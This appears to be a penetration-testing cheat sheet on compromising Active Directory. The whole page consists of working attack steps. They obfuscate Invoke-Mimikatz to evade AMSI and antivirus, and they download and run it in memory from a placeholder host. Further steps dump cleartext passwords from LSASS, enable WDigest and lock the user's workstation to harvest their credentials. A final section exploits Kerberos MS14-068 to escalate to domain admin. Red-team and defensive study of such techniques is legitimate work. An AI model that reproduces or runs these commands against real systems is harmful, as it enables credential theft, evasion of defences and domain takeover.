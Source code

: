 ### Paths to AD Compromise.  

#### AMSI Evasion and Mimikatz patch bypass

  - [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)  
  - ```sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1``` --> Replace *Invoke-Mimikatz* Strings.  
  - ```sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1``` --> Remove comments.  
  - ```sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1``` --> Remove indented comments.  
  - ```sed -i -e 's/DumpCred/Dump/g' Invoke-Mimikatz.ps1``` --> Replace Suspicious functions.  
  - ```sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1``` --> Replace suspicious functions.  
  - ```sed -i -e 's/CallDllMainSC1/ObfSC1/g' Invoke-Mimikatz.ps1``` --> Replace suspicious functions.  
  - ```sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1``` --> Replace suspicious functions.  
  - Use ```Convert-BinaryToString``` top update Mimikatz binary inside the Invoke-Mimikatz.ps1 script.  
  - [ISESteroids](http://www.powertheshell.com/isesteroids/) to obfuscate the code ().  
  - Test using powershell as administrator.  
  - ```powershell -ep bypass "IEX (New-Object Net.Webclient).DownloadString('http://[HOST]/mimikatz); Invoke-LSASSscraper"```. 
  - ```mimikatz # sekurlsa::logonpasswords``` --> Search Clear Text Passwords.  
  - ```reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f``` --> Revert Mimikatz Patch to extract clear text passwords from memory.  
  - ```rundll32 User32.dll,LockWorkStation``` --> Locks the workstation for the user to re-enter credentials.  
  - ```mimikatz # sekurlsa::logonpasswords``` --> Clear Text password extracted.    
  
#### MS14-068 Kerberos.  

Exploiting this vulnerability enables the re-writing of a ticket from domain user to domain admin in 5 minutes due to the lack of validation group memberships in Kerberos tickets < Windows 2012 (R2).  

**TOOLS:**  

  - [KrbCredExport](https://github.com/rvazarkar/KrbCredExport) --> Exports Kerberos KrbCred Tickets for use in Mimikatz/Beacon from a Kerberos CCache File.  
  - [Kekeo](https://github.com/gentilkiwi/kekeo) --> kekeo is a little toolbox I have started to manipulate Microsoft Kerberos in C.
  - [ms14_068_kerberos_checksum](https://www.rapid7.com/db/modules/auxiliary/admin/kerberos/ms14_068_kerberos_checksum) --> Metasploit module for exploiting the vulnerability. PyKEK not avaiable anymore on githhub.  
  - [Exploiting Steps](https://blog.cptjesus.com/posts/ms14068)

**STEPS:**

  - ```Get-NetDomainControllers``` --> PowerView   
  - ```dig SRV _ldap._tcp.dc_msdsc.domain.name@<dns_server_ip>``` --> Same result as previous step from a linux box.  
  - ```rpclient -U testuser <DC_IP>```  
  - ```rpcclient $> lookupnames testuser``` --> Get the SID.  
  - ```System.Security.Principal.NTAccount("TEST","testuser")).Translate([System.Security.Principal.SecurityIdentifier]).Value``` --> Get the SID using Powershell.  
  - ```whoami /user``` --> Get the SID if you are logged somewhere.  
  - ```python ms14-0068 -u testuser@test.domain -s <SID> -d <DC_IP>``` --> Creates a .ccache file.  
  - ```use auxiliary/admin/kerberos/ms14_068_kerberos_checksum``` --> Creates a .bin file with the ticket.  
  - Kekeo compiles to an executable. It can be run only on windows but lookups the SIDs itself. Ticket will be exported in KrbCred format.  
  - Msf and PyKEK Tickets needs to be exported to KrbCred to be used with Mimikatz:  
    - ```mimikatz # kerberos::clist <file_name> /export``` --> Exporting with mimikatz.  
    - ```KrbCredExport.py <file_name> <output_file>``` --> Exports to mimikatz ticket from Linux.  
  - Clean any current loaded ticket from memory before.  
  - SMBClient and Winexe accepts CCache ticket files.  
